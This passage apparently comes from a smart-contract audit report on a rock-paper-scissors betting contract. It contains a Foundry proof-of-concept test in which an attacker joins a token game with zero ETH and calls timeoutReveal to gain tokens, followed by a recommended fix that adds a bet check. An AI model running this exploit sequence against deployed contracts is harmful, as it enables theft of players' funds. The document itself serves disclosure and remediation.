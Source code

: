 ```javascript

        // Attacker joins the same game using joinGameWithEth (with 0 msg.value)
        vm.startPrank(playerD);
        game.joinGameWithEth(testGameId);
        vm.stopPrank();

        assertEq(token.balanceOf(playerC), 9);
        // verify that player D did not transfer tokens
        assertEq(token.balanceOf(playerD), 10);

        // Verify game state, ensure that player D is in the game
        (address storedPlayerC, address storedPlayerD,,,,,,,,,,,,,, RockPaperScissors.GameState state) =
            game.games(testGameId);

        assertEq(storedPlayerC, playerC);
        assertEq(storedPlayerD, playerD);
        assertEq(uint256(state), uint256(RockPaperScissors.GameState.Created));

        // Commit a move for player D
        bytes32 saltD = keccak256(abi.encodePacked("salt for player D"));
        bytes32 commitD = keccak256(abi.encodePacked(uint8(RockPaperScissors.Move.Rock), saltD));

        vm.startPrank(playerD);
        game.commitMove(testGameId, commitD);
        // Call timeoutReveal immediately after commiting to get a the game cancelled
        game.timeoutReveal(testGameId);
        vm.stopPrank();

        // Verify balances, showing that playerD was able to gain tokens
        assertEq(token.balanceOf(playerC), 10);
        assertEq(token.balanceOf(playerD), 11);
    }
```

**Recommended Mitigation:** An additional check that game.bet > 0 should be included within the function. This would ensure that the function cannot be used to join token games.

```javascript
    function joinGameWithEth(uint256 _gameId) external payable {
        Game storage game = games[_gameId];

        require(game.state == GameState.Created, "Game not open to join");
        require(game.playerA != msg.sender, "Cannot join your own game");
        require(block.timestamp <= game.joinDeadline, "Join deadline passed");
        require(msg.value == game.bet, "Bet amount must match creator's bet");
        require(game.bet > 0, "Eth must be sent to join an Eth game");

        game.playerB = msg.sender;
        emit PlayerJoined(_gameId, msg.sender);
    }
```
